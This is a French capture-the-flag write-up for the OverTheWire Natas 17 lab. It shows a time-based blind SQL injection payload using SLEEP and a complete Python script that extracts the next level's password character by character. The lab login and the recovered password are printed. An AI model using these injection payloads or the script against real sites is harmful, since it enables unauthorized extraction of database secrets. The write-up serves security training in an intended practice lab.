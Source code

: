 username : natas17
password : EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC



- On a un serveur qui ne renvoie pas la sortie (valid, error ou deny)
- On va donc tester avec un sleep dans notre injection SQL :
```SQL 
" OR IF(1=0, SLEEP(2), 0)#
```
Le serveur mets du temps pour répondre. On a une injection sql

On fait un script python et on build notre mot de passe : 
```python 
import requests
import time

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

url = "http://natas17.natas.labs.overthewire.org"

session = requests.Session()
session.auth = (username, password)

currentpass = []

while len(currentpass) < 32:
    for character in characters:
        payload = 'natas18" AND password LIKE BINARY "' + ''.join(currentpass) + character + '%" AND SLEEP(0.5) #'
        data = {"username": payload}
        start_time = time.time()
        response = session.post(url, data=data)
        end_time = time.time()
        time_taken = end_time - start_time
        if time_taken >= 0.5:
            currentpass.append(character)
            print("Current password:", ''.join(currentpass))
            break

print("Password Found:", ''.join(currentpass))
```



Le script va tester pour chaque caractere a chaque position le temps de reponse si c'est instantané alors c'est pas le bon caractère.
-> Mot de passe : **6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ**
